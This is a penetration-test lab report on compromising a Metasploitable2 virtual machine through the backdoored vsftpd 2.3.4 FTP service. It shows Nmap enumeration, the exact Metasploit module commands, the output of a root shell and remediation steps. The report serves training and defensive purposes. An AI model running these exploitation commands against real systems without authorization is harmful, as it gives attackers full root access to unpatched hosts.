

# Phase Two — Penetration Test Report
## Exploitation & Proof of Compromise

**Author:** Naheema Shafau
**Date:** March 19, 2026
**Environment:** Kali Linux 2025.4 (Attacker) → Metasploitable2 (Target)

---

## 1. Executive Summary

This assessment focused on identifying, exploiting, and validating
security vulnerabilities in a simulated vulnerable system
(Metasploitable2). Using industry-standard penetration testing tools,
a full compromise was achieved through a backdoored version of the
vsftpd FTP service, resulting in full root level remote shell access
on the target machine.

---

## 2. Methodology

### Network Discovery
- Both VMs configured on Bridged Adapter mode in VirtualBox
- Target identified at **192.168.1.140** via `ifconfig` on Metasploitable2

### Service Enumeration
Used Nmap for service and version detection:
```bash
nmap -sV 192.168.1.140
```

### Vulnerability Identification
Discovered vulnerable service:
- **vsftpd 2.3.4** — contains a known backdoor vulnerability
- Originally disclosed: **July 3, 2011**
- Identified using Metasploit's `search vsftpd` command

### Exploitation
Executed Metasploit module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.140
run
```

### Post-Exploitation Validation
- Verified interactive root shell session
- Confirmed identity and system access using whoami, id, and hostname

---

## 3. Findings

### Finding 1: Backdoored FTP Service (vsftpd 2.3.4)

| Detail | Info |
|--------|------|
| Severity | Critical |
| Port | 21 (FTP) |
| Vulnerability | Backdoor Command Execution |
| Disclosed | 2011-07-03 |
| Impact | Full remote root access |
| Outcome | Interactive shell session obtained |

---

## 4. Exploitation Details

### Nmap Results
Key services discovered on target:
```
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
3306/tcp open  mysql       MySQL 5.0.51a
5432/tcp open  postgresql  PostgreSQL 8.3.0
```

### Metasploit Execution
```bash
msf > search vsftpd
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.1.140
msf exploit(vsftpd_234_backdoor) > run
```

### Result
```
[*] 192.168.1.140:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.140:21 - Backdoor service has been spawned
[+] 192.168.1.140:21 - UID: uid=0(root) gid=0(root)
[*] Found shell
[*] Command shell session 1 opened
```

---

## 5. Proof of Compromise

Commands executed inside the compromised system:
```bash
whoami
root

id
uid=0(root) gid=0(root)

hostname
metasploitable
```

These outputs confirm full root level access on the target machine
Metasploitable2 — operated from Kali Linux attacker machine.

### Screenshots





---

## 6. Remediation Recommendations

### Critical
- Remove vsftpd 2.3.4 immediately and replace with a
  patched, supported version

### High
- Disable unused and insecure services such as Telnet
- Enforce strong authentication for all remote access services

### Medium
- Implement firewall rules to restrict access to sensitive ports
- Conduct regular vulnerability scanning across all systems

### Low
- Maintain a consistent patch management schedule
- Monitor and log all FTP and remote access activity

---

## 7. Conclusion

The vsftpd 2.3.4 backdoor exploit resulted in full root level
compromise of the Metasploitable2 target. The attack chain moved
seamlessly from reconnaissance using Nmap through to exploitation
using Metasploit, demonstrating how unpatched services create
critical entry points for attackers.

This lab highlights the importance of patch management, service
hardening, and continuous vulnerability monitoring in any IT
environment.
